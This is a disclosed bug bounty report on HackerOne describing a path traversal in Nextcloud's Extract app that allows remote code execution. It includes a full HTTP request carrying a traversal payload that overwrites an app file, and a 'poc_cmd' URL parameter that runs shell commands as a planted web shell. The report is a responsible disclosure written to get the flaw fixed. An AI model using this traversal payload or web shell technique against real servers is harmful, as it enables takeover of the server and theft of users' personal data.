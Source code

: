 # Remote code execution via path traversal in Zip extraction in the Extract app

## Report Details
- **Report ID**: 765291
- **URL**: https://hackerone.com/reports/765291
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-12-27T23:07:56.864Z
- **Disclosed**: 2020-03-07T12:54:55.538Z

## Reporter
- **Username**: emilvirkki
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
I realise this doesn't qualify for a reward, as it's a vulnerability in a third-party app, but as the app is part of the "official" VM image provided by Hansson IT, I think it's well worth fixing.

The Extract app doesn't validate the path or filename of a zip file to be extracted, allowing an attacker to create or overwrite arbitrary files.

How to reproduce
===

Install NextCloud using the VM image with default settings (with the extra security options).

Create a new user with no user group and log in as that user.

Upload the payload zip file (nextcloud-shell.zip, attached) to the root folder (or wherever you like). It contains a modified version of apps/files/App.php, necessary for getting the payload to run.

Click the "Extract here" option for the nextcloud-shell.zip and intercept the request. Modify the **request body** so the request looks something like the following. You need to replace "normaluser" with the username of the user you created in (2):

```
POST /index.php/apps/extract/ajax/extractHere.php HTTP/1.1
Host: 192.168.100.32
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: */*
Accept-Language: fi-FI,fi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
requesttoken: lv0G5+K7v/a3w30wOMyR35SvBgF35GHmiuoejP+8u7g=:w5s+qIPUj8aAohdpWojkiazdVXYRkwyp47t8ypHy/+4=
OCS-APIREQUEST: true
X-Requested-With: XMLHttpRequest
Content-Length: 55
Origin: https://192.168.100.32
DNT: 1
Connection: close
Cookie: ocmmdvtkydkx=1u2e2imt5h7g0pimv84eoqnfco; oc_sessionPassphrase=MXmMNXhcE3%2FpbZla9mKTYIS18lYG49cMP8lTHFrJfGe1jLxHd2hHfg8vYs1O6hFjv2IbkI31jhMeJnajKWNYzIb7G3f9UNiFmyKJwAbzPWLKY594ScipzPr6u%2BN9SUp3; __Host-nc_sameSiteCookielax=true; __Host-nc_sameSiteCookiestrict=true; nc_username=normaluser; nc_token=FkBWj5z2dOJS0v4putAyW2oL7tAEOc9Q; nc_session_id=1u2e2imt5h7g0pimv84eoqnfco

nameOfFile=../../../../../../mnt/ncdata/normaluser/files/nextcloud-shell.zip&directory=/../../../../var/www/nextcloud/apps/files/lib&external=0
```

Open the following URL (replace host ip with your actual install) and observe how the current user and group are printed: `https://192.168.100.32/apps/files/?dir=/&poc_cmd=whoami`. You can obviously change the poc_cmd parameter to run any command you like.

## Impact

The attacker can run any commands with the privileges of the www-data user. This allows the attacker to access and modify all the files and personally identifiable information in the installation.

## Attachments
- nextcloud-shell.zip
